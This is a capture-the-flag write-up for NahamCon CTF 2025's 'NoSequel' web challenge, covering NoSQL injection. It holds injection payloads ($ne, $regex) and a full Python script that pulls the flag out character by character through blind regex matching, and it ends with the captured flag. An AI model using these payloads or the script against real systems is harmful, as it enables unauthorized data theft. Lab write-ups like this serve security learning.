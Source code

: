 ```yaml
---
name: NoSequel (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for NoSequel (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# NoSequel

## Description

> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.

## Solution

Challenge name suggests we should focus on NoSQL injection 🤔

![](images/0.png)

It even gives us an example! We can check the [Portswigger labs](https://portswigger.net/web-security/nosql-injection) on this topic for some exploitation ideas, [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html) for some quick payloads.

When sending:

{% code overflow="wrap" %}

```json
query={"$ne":null}&collection=movies
```

{% endcode %}

The server responds `unknown top level operator: $ne`

If we try and search the `flags` collection, it says `Only regex on 'flag' field is supported`

I tried to change the content-type to JSON and use some different payloads. We also want to test a search query that returns results, e.g. by using a movie title from the homepage. Doing this will give us a "true" condition that we could use to compare results later, if we need to extract the flag char by char.

![](images/1.PNG)

When I try to enter `[$regex]=.{25}` as search query for the `flags` collection, it warns me to use a JSON format.

![](images/2.PNG)

Using that format, we apply a regular expression to see if the flag begins with `flag`.

{% code overflow="wrap" %}

```
flag: {$regex: ^flag}
```

{% endcode %}

![](images/3.PNG)

It does! So we can just write a python script to loop through all possible hex chars, since we know the flag format from previous challenges; `flag{[0-9a-f]{32}}`.

I just finished a 72 hour OSWE exam which required automating exploit chains into a 1-click-pwn script _without_ help from an LLM. Since that is finished, I'll make life easier for myself 😁

{% code overflow="wrap" %}

```python
import requests
import string

# Config
url = "http://challenge.nahamcon.com:31786/search"
charset = "0123456789abcdef"
flag_prefix = "flag{"
flag = flag_prefix
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

def test_candidate(candidate):
    payload = {
        "query": f'flag: {{$regex: ^{candidate}}}',
        "collection": "flags"
    }
    response = requests.post(url, data=payload, headers=headers)
    return "Pattern matched" in response.text

while not flag.endswith("}"):
    found = False
    for ch in charset:
        attempt = flag + ch
        print(f"[?] Trying: {attempt}")
        if test_candidate(attempt):
            print(f"[+] Match: {attempt}")
            flag += ch
            found = True
            break
    if not found:
        print("[-] No match found. Trying closing brace '}'...")
        if test_candidate(flag + "}"):
            flag += "}"
            print(f"[✓] Flag complete: {flag}")
            break
        else:
            print("[-] Could not extend flag — possibly an error.")
            break

print(f"[🏁] Final flag: {flag}")
```

{% endcode %}

It works, we get the flag 😎

![](images/4.PNG)

Flag: `flag{4cb8649d9ecb0ec59d1784263602e686}`
